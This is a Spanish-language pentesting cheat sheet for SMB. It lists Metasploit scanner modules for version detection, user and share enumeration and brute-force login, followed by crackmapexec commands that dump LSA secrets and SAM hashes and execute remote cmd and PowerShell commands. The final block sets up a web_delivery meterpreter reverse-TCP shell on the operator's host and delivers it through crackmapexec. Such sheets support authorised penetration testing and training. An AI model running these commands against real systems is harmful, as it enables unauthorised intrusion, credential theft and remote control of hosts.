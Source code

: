 <br>

<h3 id="SMB7">Módulos de Metasploit para SMB</h3>

```bash
# Módulo para encontrar la versión del SMB
auxiliary/scanner/smb/smb_version


# Módulo para enumerar usuarios
auxiliary/scanner/smb/smb_enumusers


# Módulo para enumerar archivos compartidos
auxiliary/scanner/smb/smb_enumshares


# Módulo para aplicar fuerza bruta y trata de loguearse al SMB
auxiliary/scanner/smb/smb_login


# Identifica las named pipes que son accesibles del SMB
auxiliary/scanner/smb/pipe_auditor
```

<br>

<h3 id="SMB8">Auditando SMB con crackmapexec</h3>

```bash
# Obteniendo información del servicio SMB
crackmapexec smb <IP>


# Comprobando si una contraseña es valida
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>'


# Dumpeando LSA secrets
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --lsa


# Dumpeando SAM hashes
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' --sam


# Ejecutando comandos con crackmapexec
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' -x '<comando>'


# Ejecutando comandos de powershell con crackmapexec
crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' -X '<comando_PowerShell>'


# Obteniendo sesión con módulo web_delivery
msfconsole 
search web_delivery
use 1
set LHOST <Tu_IP>
set target 2
set payload windows/meterpreter/reverse_tcp
exploit
copiar y pegar en crackmapexec

crackmapexec smb <IP> -u '<usuario>' -p '<contraseña>' -M web_delivery -o URL=<aqui_Va_URL>

```